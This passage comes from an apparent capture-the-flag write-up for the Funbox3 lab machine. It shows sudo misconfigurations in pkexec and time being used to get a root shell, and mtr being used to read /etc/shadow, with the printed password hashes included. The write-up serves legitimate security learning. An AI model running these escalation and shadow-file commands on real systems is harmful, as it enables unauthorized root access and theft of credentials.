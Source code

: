 
Of special note are binaries `/usr/bin/pkexec`, `/usr/bin/time`, and `/usr/bin/mtr`. Also, .smile.sh does not exist, nor do any of those directories.


__Escalation via pkexec__

First, we are able to escalate our privilege to root using `/usr/bin/pkexec` as follows:

```bash
tony@funbox3:~$ whoami
tony
tony@funbox3:~$ sudo /usr/bin/pkexec /bin/sh
# whoami
root
```

__Escalation via time__
Alternatively, we can escalate our privilege to root using `/usr/bin/time` as follows:

```bash
tony@funbox3:~$ whoami
tony
tony@funbox3:~$ sudo /usr/bin/time /bin/sh
# whoami
root
#
```

__Reading System Files via mtr__


In addition, we are able to read any system file (for example` /etc/shadow`) using` /usr/bin/mtr` as follows:

```bash
tony@funbox3:~$ whoami
tony
tony@funbox3:~$ LFILE=/etc/shadow
tony@funbox3:~$ sudo /usr/bin/mtr --raw -F "$LFILE"
/usr/bin/mtr: Failed to resolve host: root:$6$4r./2lj6ZWMvAM8d$a/WAF4NlJsHGELA./0HVNg.dAqY6Aqzws5PHMdWvBkzQbbEgl9BzTINMP2w00yuZcevYuFPfefGxnHT76kuzm1:18564:0:99999:7:::: Name or service not known
...
/usr/bin/mtr: Failed to resolve host: tony:$6$3CcVDtP8rpQ/g1AY$tpRzq31JEsdsbEi4AD7wG5XfgrEwsr0j4vHqSQmkTpYvx.yHrB/xv3pv8Xlko/5P4vzW4v8BC3tG/YPtbbzVN0:18473:0:99999:7:::: Name or service not known
/usr/bin/mtr: Failed to resolve host: lxd:!:18473::::::: Name or service not known
/usr/bin/mtr: Failed to resolve host: mysql:!:18473:0:99999:7:::: Name or service not known
tony@funbox3:~$
```



